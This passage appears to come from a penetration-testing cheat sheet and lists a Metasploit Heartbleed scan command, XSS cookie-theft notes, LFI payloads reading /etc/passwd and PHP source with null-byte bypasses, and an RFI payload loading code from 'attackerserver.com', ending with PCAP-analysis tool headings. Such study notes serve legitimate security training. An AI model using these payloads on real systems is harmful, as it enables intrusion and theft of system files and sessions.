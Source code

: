     - ```
      use auxiliary/scanner/ssl/openssl_heartbleed
      set RHOSTS 192.168.3.212
      set verbose true
      run
      ```
- XXS

    - Session hijacking / Cookie theft. Steal cookie to get admin privilege

    - use xsser tool

- LFI

    - Bypassing php-execution

        - `http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index`

    - Bypassing the added .php and other extra file-endings

        - `http://example.com/page=../../../../../../etc/passwd%00`

        - `http://example.com/page=../../../../../../etc/passwd?`

    - folder that always exist

        - `/etc/hosts /etc/resolv.conf`

    - add %00jpg to end of files

        - `/etc/passwd%00jpg`

    - Refer this for more information

        - <https://sushant747.gitbooks.io/total-oscp-guide/local_file_inclusion.html>

        - <https://highon.coffee/blog/lfi-cheat-sheet/>

- RFI

    - `http://exampe.com/index.php?page=http://attackerserver.com/evil.txt`

### Other

[cewl — Creating wordlist from webpage](https://www.kali.org/tools/cewl/ "https://www.kali.org/tools/cewl/")

# PCAP analysis

### Tools

- Wireshark

- NetworkMiner

- Strings

- Tshark

### Checklist
